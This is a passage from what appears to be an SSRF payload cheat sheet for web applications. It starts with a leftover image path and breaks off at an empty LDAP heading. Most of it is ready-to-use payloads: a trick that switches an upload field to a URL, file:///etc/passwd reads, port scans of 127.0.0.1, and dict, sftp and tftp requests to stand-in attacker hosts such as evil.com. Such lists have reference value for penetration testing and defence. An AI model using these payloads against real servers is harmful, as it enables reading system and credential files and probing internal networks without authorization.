 ```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### **Exploitation via URL Scheme** ###

### **File** ###

Allows an attacker to fetch the content of a file on the server

```
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### **HTTP** ###

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

### **Dict** ###

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### **SFTP** ###

A network protocol used for secure file transfer over secure shell

```
ssrf.php?url=sftp://evil.com:11111/
```

### **TFTP** ###

Trivial File Transfer Protocol, works over UDP

```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### **LDAP** ###
